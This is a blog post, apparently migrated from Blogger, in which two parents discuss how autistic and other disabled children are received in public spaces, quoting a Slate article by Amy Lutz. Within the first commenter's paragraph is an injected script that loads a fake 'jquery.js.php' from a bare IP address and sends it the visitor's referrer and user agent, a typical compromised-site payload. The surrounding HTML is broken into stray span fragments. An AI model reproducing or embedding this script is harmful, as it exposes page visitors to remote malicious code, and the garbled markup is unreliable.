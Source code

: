 ```yaml
---
layout: post
title: 'Disability And Public Spaces'
date: 15-May-2013
categories: tbd
---
```


# Disability And Public Spaces

## 15th May 2013

 

&lt;iframe src="http://www.youtube.com/embed/dgwYukPReKw" frameborder="0" allowfullscreen&gt;&lt;/iframe&gt;

(ABC what would you do autism clip)

lisa: <span ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  sans-serif;">just re the sharing space - taking it in turns and inclusive.....i also think the turn taking may be an important step (step only...not THE model) for the people with disabilites being able to 'learn to use' the public space first. exposure is how they are educated and so having a chance to do this with no pressure would be really advantageous for families/ carers and the person with the</span><span disability</span><span  </span><span first.</span>

<div>

 

</div>

<div>

* there is also some question in my mind about the 'type' of <span>disability</span> that is 'easier' to manage in a public space. for some reason....quite little children who are profoundly disabled in wheel chairs, pose little threat to 'others' ability to enjoy public space. because they can look away, they dont need to react or respnd physically cause the child is in a wheel chair....it seems the same for other sensory <span>disabilities</span>...like children/people with vision impariments...(its the little blind boy and the cute guide dog thing....been around forever and accepted by most)....but for some reason, autistic children or other <span>disabilities</span> , that involved noise or behaviour that is not 'contained' or 'controled' seems to pose a threat to others. cause they dont know how to react....or cause they dont understand.....or approve of the parenting.

</div>

<div>

 

</div>

<div>

* having a child with autism can often basically be like having a shreiking , repetitive noise making 1 yr  -18 month old, for your whole life! We all know to try and avoid public spaces unless armed with major food weapons and toy distractions.....but this phase passes....

</div>

<div>

If you have a child with Autism, it never, ever passes. N these people have as much right to use public space as anyone else.

</div>

<div>

 

</div>

<div>

* years and years of taking children into the community - mostly wahroonga shops and cafes - but also on camps and other places - most people want to help, feel empathy and are enriched by the experiences of children with <span>disabilities</span>....the odd person (and again my experience is that it is usually an elderly impatient person or a middle ages and up man with anger issues..occasionally a mother too...who is worried an protective of her own little child.) will have a problem with children/people wiht <span>disabilities</span> in public spaces.

</div>

<div>

 

</div>

<div>

veronica: <span  </span><span think it's a tough one. For ME, public spaces are for the public and children - special needs or not, can't be expected to learn how to behave in public if they're never there, you know? I also think that as a whole, communities have forgotten how to be empathetic to parents. There's a lot of people who think they know how they'd do it better and how we ought to be parenting. That's special needs or not.</span>

</div>

<div>

 

</div>

<div>

<span I'm lucky I guess, because Amy is a girl, she's a lot more sensitive to social graces and has learned them pretty well. She's just quirky in her obsessions and concentration now, not difficult in public, and Isaac withdraws entirely because he finds it all so overwhelming, so he's easy - unless you want to speak to him. Heh.</span>

</div>

<div>

 

</div>

<div>

<span I wonder if it's just invisible <span data-blogger-escaped-disabilities</span> that get judged so harshly. A drooling shouting five year old who looks otherwise competent is likely to be treated differently to the same five year old in a wheelchair. Likewise all these "wonder stories" of curing ADHD and ASD with diet makes a lot of people assume that it's easily managed and a "get out of jail free" diagnosis,iykwim? When that's not the case at all.</span>

</div>

<div>

 

</div>

<div>

<span For me, I try not to think about other people too much. My children are human beings with their own wants and desires. I let them know how I expect them to behave and provide consequences, but it's up to them to actually DO it. It's like all that drama over Facebeef - asking the father of the 18yo why he won't control his son. DUDE, the boy is EIGHTEEN. Doesn't anyone realise that parents can't "control" their child? it's all choices?</span>

</div>

<div>

<span  </span>

</div>

<div>

<span Slate Magazine article ntitled <a href="http://www.slate.com/articles/health_and_science/medical_examiner/2013/03/autism_in_the_community_how_should_public_spaces_be_shared.html">Where Should Special Needs Kids Be Special</a>? by Amy Lutz, she asks 'what are reasonable expectations of people in public places?' </span><span It’s not OK to be offended by the sight of disabled people in the community or to insult them or their family members. However, neither is it OK for anyone, disabled or not, to engage in dangerous, illegal, and/or unsanitary behaviors.</span>

</div>

<div>

<div>

Pretty broad parameters, no doubt, but hopefully ones we can all agree on.

</div>

</div>

<div>

<div>

Where it gets tricky is in the middle. What are reasonable expectations of behavior in public places? Like many autistic individuals, Jonah is virtually incapable of doing anything quietly. He has been scowled at on airplanes, in movie theaters, in restaurants, and in bookstores. And I get it—I prefer a quiet airplane ride as much as the next person. But what I keep coming back to is that **community**, by definition, is inclusive. Ideally, our public spaces should accommodate everyone. Which means that expecting kids like Jonah to just stay home isn’t reasonable. Nor should we think of this issue in terms of what discomfort or awkwardness people without disabilities are willing to tolerate, because that suggests a troubling hierarchy of privilege. Instead, we need to ask ourselves how best to share our common facilities.

 

</div>

</div>

<div></div>
